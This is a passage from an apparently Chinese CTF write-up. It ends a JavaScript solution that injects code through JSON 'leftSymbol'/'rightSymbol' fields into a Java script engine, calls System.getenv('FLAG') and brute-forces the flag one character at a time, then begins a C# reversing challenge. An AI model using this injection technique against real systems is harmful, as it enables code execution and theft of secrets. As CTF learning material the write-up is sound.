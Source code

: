 ```js
              },
              {
                "leftSymbol": ");",
                "rightSymbol": ";true//",
                "leftScore": 0,
                "rightScore": 0,
                "grade": "OK2"
              }
            ]
          }
        )})
        .then(v=>v.json()).then(e=>{
            if(e[0]=="OK1"){
                console.log(i,j,"OK");
            }
        })
    }
}

})()


/*
00000000001111111111222222222233333333
0123456789012345678901234567890123456
0ops{Scr!Pt_ENgIN3_1S_DAnGerous_hhH}

*/
```

拼起来是
```plain
 +-+-leftScore                             rightScore-+-+
 | |                                                  | |
(0.0,x=java.lang.System,x && x.getenv('FLAG')[12]<'o'+0.0)
     |                 |      |                      | 
     +---leftSymbol----+      +-----rightSymbol------+
```



确实挺神人的，反正deepseek绝对想不到这个


# AreYouReady
> Donald J. Trump’s gonna Make America Great Again! But how?

简单的逆向，C#直接上ILSpy，阅读毫无难度：

```c#
public class Composition
{
	public delegate void Instrument(int P_0, int P_1);

	private readonly int[] states;

	private int secret;

	public readonly Instrument[] instruments;

	private readonly int STARTED = 1;

	private readonly int PROCEDING = 2;

	private readonly int FINISHED = 3;

```